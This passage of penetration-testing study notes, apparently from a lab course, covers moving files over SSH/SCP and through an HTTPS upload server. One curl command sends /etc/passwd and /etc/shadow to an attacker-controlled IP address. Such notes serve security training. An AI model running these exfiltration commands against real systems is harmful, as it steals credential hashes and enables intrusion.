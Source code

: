 ##### 2-Starting the SSH Server

```shell-session
sudo systemctl start ssh
```

##### 3-Checking for SSH Listening Port

```shell-session
netstat -lnpt
```

##### 4-Linux - Downloading Files Using SCP

```shell-session
scp plaintext@192.168.49.128:/root/myroot.txt . 
```



## Upload Operations


### 1-Web Upload

##### 1-Attack Linux - Start Web Server

```shell-session
sudo python3 -m pip install --user uploadserver
```

##### 2-Create a Self-Signed Certificate
```shell-session
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```

##### 3-Start Web Server

```shell-session
mkdir https && cd https
```

```shell-session
sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
```


##### 4-Linux - Upload Multiple Files

```shell-session
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```


### 2-**Alternatif Web Dosya Aktarım Yöntemi**


##### 1-Linux - Creating a Web Server with Python3
